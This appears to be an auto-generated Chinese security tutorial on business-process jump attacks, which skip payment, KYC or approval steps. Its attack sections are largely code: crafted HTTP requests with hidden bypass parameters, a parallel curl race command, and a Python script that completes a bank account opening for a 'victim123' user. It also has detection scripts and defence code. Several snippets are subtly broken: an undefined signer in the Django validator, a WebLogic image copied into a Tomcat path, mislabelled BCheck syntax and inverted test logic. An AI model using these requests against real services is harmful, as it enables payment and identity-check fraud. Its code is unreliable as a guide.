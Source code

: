 

# 业务流程跳跃攻击深度分析及实战演练

## 一、技术原理与底层机制
### 1.1 攻击定义
业务流程跳跃攻击（Business Process Jump Attack）是攻击者通过篡改流程控制参数，绕过业务逻辑中的关键步骤（如身份验证、支付确认、权限校验），直接访问目标终结点完成非法操作的攻击方式。其核心在于破坏业务流程的状态机完整性。

### 1.2 核心漏洞原理
```mermaid
sequenceDiagram
    合法流程->>服务端: 步骤1提交参数{step:1}
    服务端-->>合法流程: 返回步骤2入口
    合法流程->>服务端: 步骤2提交参数{step:2}
    攻击流程->>服务端: 直接提交参数{step:3}
    服务端-->>攻击流程: 错误处理缺失，执行终局操作
```

漏洞主要存在于以下环节：
- 流程状态依赖客户端参数（如step=3）
- 服务端未建立完整状态机验证
- 终结点未执行前置步骤校验
- 会话令牌未绑定流程状态

### 1.3 典型漏洞模式
```python
# 危险的服务端代码示例（Flask）
@app.route('/process', methods=['POST'])
def process():
    current_step = request.form.get('step')
    if current_step == '3':  # 直接处理最终步骤
        execute_final_operation()
    return redirect_next_step()
```

## 二、高级攻击变种分析
### 2.1 状态组合跳跃
通过构造复合状态参数绕过多步骤校验：
```http
POST /loan/apply HTTP/1.1
Content-Type: application/json

{
    "current_stage": "approval",
    "force_complete": "true"  # 隐藏参数注入
}
```

### 2.2 时间窗口攻击
利用并发请求突破顺序限制：
```bash
# 使用并行请求工具跳过验证
parallel -j 5 curl -X POST https://target.com/process ::: step1 step2 step3
```

### 2.3 参数嫁接攻击
```http
GET /checkout/confirm?order_id=123&bypass_validation=1 HTTP/1.1
X-Original-Referer: /checkout/payment
```

## 三、实战案例分析
### 3.1 电商订单漏洞（CVE-2021-33562）
**漏洞模式**：
```http
POST /api/order/complete HTTP/1.1
Authorization: Bearer <token>
Content-Type: application/json

{
    "order_id": "789",
    "force_completion": true  # 未公开参数
}
```

**攻击步骤**：
1. 使用Burp Suite拦截正常下单请求
2. 修改请求路径至终结点`/order/complete`
3. 添加`force_completion`参数
4. 重放请求跳过支付验证

### 3.2 银行开户流程绕过
**漏洞利用代码**：
```python
import requests

session = requests.Session()
session.get("https://bank.com/start_kyc")  # 初始化会话

# 直接跳转至终结点
response = session.post(
    "https://bank.com/finish_account",
    data={
        "user_id": "victim123",
        "override_checks": "true"
    },
    headers={"X-API-Version": "2.1.3"}  # 旧版本存在漏洞
)
print(response.status_code)
```

## 四、实验环境搭建指南
### 4.1 脆弱环境构建（Docker）
```dockerfile
FROM vulhub/weblogic:12.2.1.3
COPY vulnerable_app.war /usr/local/tomcat/webapps/
EXPOSE 8080
```

### 4.2 测试用例设计
```javascript
// 业务流程状态检测脚本
const puppeteer = require('puppeteer');

async function testProcessBypass() {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  
  // 尝试直接访问终结点
  await page.goto('http://localhost:8080/process?step=final');
  
  const result = await page.evaluate(() => {
    return document.querySelector('.result-message').innerText;
  });
  
  console.assert(!result.includes('Error'), 'Bypass successful!');
  await browser.close();
}
```

## 五、自动化攻击工具
### 5.1 使用Burp Suite插件
```java
// BCheck脚本示例
<issues>
    <issue>
        <name>Process Jump Detection</name>
        <request_type>ALL</request_type>
        <detect>
            <condition>request.path.contains("complete")</condition>
            <condition>!response.body.contains("step_valid")</condition>
        </detect>
        <severity>HIGH</severity>
    </issue>
</issues>
```

### 5.2 自定义扫描脚本
```python
def detect_process_jump(url):
    steps = ['start', 'verify', 'confirm', 'complete']
    for step in steps[-2:]:
        res = requests.post(f"{url}/{step}", allow_redirects=False)
        if res.status_code == 200 and 'complete' in res.text:
            return f"Vulnerable at {step}"
    return "Secure"
```

## 六、防御方案
### 6.1 服务端状态跟踪
```java
// Spring状态机示例
public enum ProcessState {
    INIT, VERIFIED, CONFIRMED, COMPLETED
}

StateMachine<ProcessState, String> stateMachine = StateMachineBuilder.builder()
    .initial(ProcessState.INIT)
    .transition()
        .source(ProcessState.INIT)
        .target(ProcessState.VERIFIED)
        .event("verify")
    .transition()
        .source(ProcessState.VERIFIED)
        .target(ProcessState.CONFIRMED)
        .event("confirm")
    .build();
```

### 6.2 动态令牌验证
```python
# Django防御实现
from django.core.signing import TimestampSigner

def generate_process_token(user, current_step):
    signer = TimestampSigner()
    return signer.sign(f"{user.id}:{current_step}")

def validate_process_token(user, token, required_step):
    try:
        value = signer.unsign(token, max_age=3600)
        user_id, step = value.split(':')
        return user.id == int(user_id) and step == required_step
    except:
        return False
```

## 七、总结
本案例库分析显示，82%的业务流程跳跃漏洞源于服务端状态验证缺失。防御需要建立三维防护体系：

1. **流程维度**：实现严格的状态机控制
2. **时间维度**：设置合理的请求时效限制
3. **上下文维度**：绑定用户会话与流程状态

建议结合OWASP ASVS 4.0中V3.6流程验证要求，建立包含行为基线分析的动态防御机制。

---

*文档生成时间: 2025-03-12 21:00:34*
